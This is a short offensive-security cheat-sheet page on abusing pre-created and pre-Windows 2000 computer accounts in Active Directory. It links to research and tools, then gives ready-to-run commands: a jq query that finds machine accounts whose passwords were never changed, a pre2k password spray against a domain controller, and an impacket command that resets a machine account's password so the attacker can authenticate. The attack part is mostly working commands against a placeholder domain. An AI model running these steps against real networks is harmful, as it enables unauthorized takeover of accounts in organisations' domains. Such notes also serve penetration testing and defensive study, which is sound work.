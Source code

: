 ```yaml
---
description: Pre-created Computer Accounts & Pre-Windows 2000
---
```


# Pre-created Computers Abuse




## ACL Abuse on Pre-Windows 2000 Computers

- [https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts/](https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts/)
- [https://www.optiv.com/insights/source-zero/blog/diving-deeper-pre-created-computer-accounts](https://www.optiv.com/insights/source-zero/blog/diving-deeper-pre-created-computer-accounts)
- [https://github.com/garrettfoster13/pre2k](https://github.com/garrettfoster13/pre2k)
- [https://github.com/eversinc33/Invoke-Pre2kSpray](https://github.com/eversinc33/Invoke-Pre2kSpray)

Search for machines that never updated their passwords:

```
$ cat 19700101000000_computers.json | jq '.data[].Properties | select(.enabled == true and .pwdlastset == 0) | .name' -r > pre2k.txt
```

Initiate a pitchfork spray against them:

```
$ pre2k unauth -d megacorp.local -dc-ip 192.168.1.11 -inputfile pre2k.txt -sleep 10 -jitter 30 -threads 1
```

Change password to authenticate via NTLM:

```
$ changepasswd.py megacorp.local/'PC01$:pc01'@192.168.1.11 -newpass 'Passw0rd!' -protocol kpasswd -dc-ip 192.168.1.11
```




## ACL Abuse on Pre-created Computers

- [https://dirkjanm.io/abusing-forgotten-permissions-on-precreated-computer-objects-in-active-directory/](https://dirkjanm.io/abusing-forgotten-permissions-on-precreated-computer-objects-in-active-directory/)
